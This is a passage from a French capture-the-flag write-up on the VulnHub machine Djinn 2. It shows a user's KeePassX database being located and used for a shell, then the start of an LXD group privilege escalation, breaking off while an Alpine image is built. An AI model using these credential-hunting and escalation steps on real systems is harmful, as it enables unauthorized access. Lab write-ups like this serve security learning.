 ```python


if __name__ == "__main__":
    app.run(host='0.0.0.0', debug=False)
```

On ne peut pas chainer les commandes mais on peut les passer les uns après les autres.

Les deux process Flask tournent en `www-data` du coup inutile de s'y attader.

On trouve sur le système un utilisateur Nitish qui a une base de données KeePassX dans `/var/backups` :

```shellsession
www-data@djinn:/opt$ find / -user nitish -ls 2> /dev/null 
   525042      4 -rwxr-xr-x   1 nitish   nitish       2174 Dec 20  2019 /var/backups/nitu.kdbx
   540827      4 drwxr-x---   4 nitish   nitish       4096 Jan 21  2020 /home/nitish
```

Cette fois otre identifiant sert à ouvrir le fichier kdbx avec KeepPassX et ainsi obtenir un mot de passe qui y était stocké :

![Djinn 2 VulnHub Nitish KeePassX](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/djinn_nitish_keepassx.jpg)

L'utilisation de ce mdp permet d'obtenir un shell :

```shellsession
nitish@djinn:~$ id
uid=1000(nitish) gid=1000(nitish) groups=1000(nitish),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
```

## lxc2root

L'utilisateur faisant partie du groupe `lxd` on va procédé à une escalade de privilège similaire à ce qu'il se fait avec Docker. Tout est documenté chez [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation).

Dans un premier temps sur ma machine je génère une image LXD de Alpine :

```shellsession
$ git clone https://github.com/saghul/lxd-alpine-builder
Clonage dans 'lxd-alpine-builder'...
remote: Enumerating objects: 50, done.
remote: Counting objects: 100% (8/8), done.
remote: Compressing objects: 100% (6/6), done.
remote: Total 50 (delta 2), reused 5 (delta 2), pack-reused 42
Réception d'objets: 100% (50/50), 3.11 Mio | 1.02 Mio/s, fait.
Résolution des deltas: 100% (15/15), fait.
$ cd lxd-alpine-builder
$ sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
$ ./build-alpine -h
```